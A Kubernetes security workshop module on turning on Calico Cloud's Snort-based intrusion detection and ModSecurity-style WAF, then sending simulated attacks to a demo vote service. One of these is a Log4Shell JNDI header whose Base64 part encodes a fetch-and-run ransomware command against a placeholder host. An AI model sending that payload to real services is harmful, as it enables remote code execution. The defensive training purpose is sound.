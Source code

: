 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

```yaml
kubectl apply -f - <<-EOF
apiVersion: operator.tigera.io/v1
kind: IntrusionDetection
metadata:
  name: tigera-secure
spec:
  componentResources:
  - componentName: DeepPacketInspection
    resourceRequirements:
      limits:
        cpu: "1"
        memory: 1Gi
      requests:
        cpu: 100m
        memory: 100Mi
EOF
```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

```yaml
kubectl apply -f - <<-EOF
apiVersion: projectcalico.org/v3
kind: DeepPacketInspection
metadata:
  name: dpi-ids-vote
  namespace: vote
spec:
  selector: app == "vote"
EOF
```

3. Wait for the ```tigera-dpi``` pods to finish spinning up and be in a ```Running``` and ```Ready``` state:

   ```bash

   ```

4. Test the IDS emulating an attack to the vote service:

   - Find the IP address of the vote application and export it to the `VOTE_EXTERNAL` environment variable

     ```bash
     export VOTE_EXTERNAL=$(kubectl get svc -n vote vote-external -o=jsonpath='{.status.loadBalancer.ingress[*].hostname}')
     ```

   - From your shell, execute the following commands.

     ```bash
     curl -m2 http://$VOTE_EXTERNAL/cmd.exe
     curl -m2 http://$VOTE_EXTERNAL/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

The WAF rules are based on the [Modsecurity Ruleset](https://owasp.org/www-project-modsecurity-core-rule-set/)

1. Modify the default WAF ruleset by running the following command:

   ```bash
   kubectl apply -f waf/coraza/ruleset.configmap.yaml
   ```

2. Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```

3. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```bash
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

6. Check the alerts in the ```Service Graph``` and also in the left-hand menu under ```Threat Defense > Security Events```

---

[:arrow_right: Module 6 - Detect Zero-Day Attacks with Threat Defence](/modules/module-6-threat-defence.md)  

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/modules/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
